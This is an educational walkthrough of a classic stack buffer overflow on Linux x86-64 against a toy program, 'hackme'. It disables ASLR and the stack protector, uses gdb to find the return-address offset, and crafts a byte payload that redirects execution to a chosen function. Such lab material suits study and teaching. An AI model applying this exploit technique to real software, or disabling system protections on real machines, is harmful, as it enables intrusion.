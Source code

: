 # Simple example of stack smashing exploit on Linux x86-64

Tested on Debian 11. Here are the steps to reproduce the exploit:

1. First we need to disable a couple of security features that prevent this
   kind of exploit. Disable the Address Space Layout Randomization on your
   system to have security_critical_function at a deterministic address with
   the following command:
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

   Next we compile without the stack protector, and we create a static
   binary to have `security_critical_function` at an easily identifiable
   location:
```
gcc -fno-stack-protector hackme.c -g -o hackme -static
```

   Keep in mind that each time you modify and recompile the program, the
   memory layout will change and you have to redo steps 2 and onwards.

2. We need to measure the distance in bytes between the start of `local_buffer`
   and the return address of `preprocess_input` on the stack. We use gdb and put
   a breakpoint on `preprocess_input`. Once the breakpoint is reached, we
   can print the address of the local buffer I wish to overflow:
```
   (gdb) p &local_buffer
   $1 = (char (*)[16]) 0x7fffffffe220
```

   That's an address on the stack and the return address is stored
   somewhere above. To find where the return address is we first look for
   its value:
```
   (gdb) info frame
   [...] saved rip = 0x401d0c
```

   The return address is `0x401d0c`! Now let's find it on the stack by
   printing the stack content, starting from the stack pointer (RSP register)
```
   (gdb) x/wx $rsp
   0x7fffffffe210:	0x004a90a0  // nope
   (gdb) x/wx $rsp+8
   0x7fffffffe218:	0xffffe651  // nope
   (gdb) x/wx $rsp+16
   0x7fffffffe220:	0x00000000  // nope
   (gdb) x/wx $rsp+24
   0x7fffffffe228:	0x00400488  // nope
   (gdb) x/wx $rsp+32
   0x7fffffffe230:	0xffffe250  // nope
   (gdb) x/wx $rsp+40
   0x7fffffffe238:	0x00401d0c  // found it!
```

   So the offset between the start of the buffer we want to overflow and
   the return address is:
   `0x7fffffffe238 - 0x7fffffffe220 = 0x18` (i.e. 24 bytes)
   Conclusion: there are 24 bytes between `local_buffer` and the return address

3. Next we need to craft our payload, it should be consituted of 24 bytes
   of padding, followed by the value we want to overwrite the return address
   with, i.e. the address of `security_critical_function`. We can find it
   easily:
```
   nm hackme | grep security_critical_function
```

   In my case it is at `0x401c8d`:
```
   0000000000401c8d T security_critical_function
```

   So my payload will be: [24 bytes of padding][0x401c8d]

4. We cannot inject bytes directly from the command line arguments, as what
   we put there are characters that get encoded with ascii code in memory,
   so we use `echo -e` to generate bytes than we feed these as the command
   line parameter to our target using `xargs`:

```
   echo -e "\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x8d\x1c\x40\x00\x00\x00\x00\x00" | xargs --null -t -n1 ./hackme
```

   Notice how we have 24 bytes of garbage (`\x11`) and then the address of
   `security_critical_function` that will overwrite the return address:
   `\x8d\x1c\x40\x00\x00\x00\x00\x00`

Don't forget to re-enable ASLR when you are done:
```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

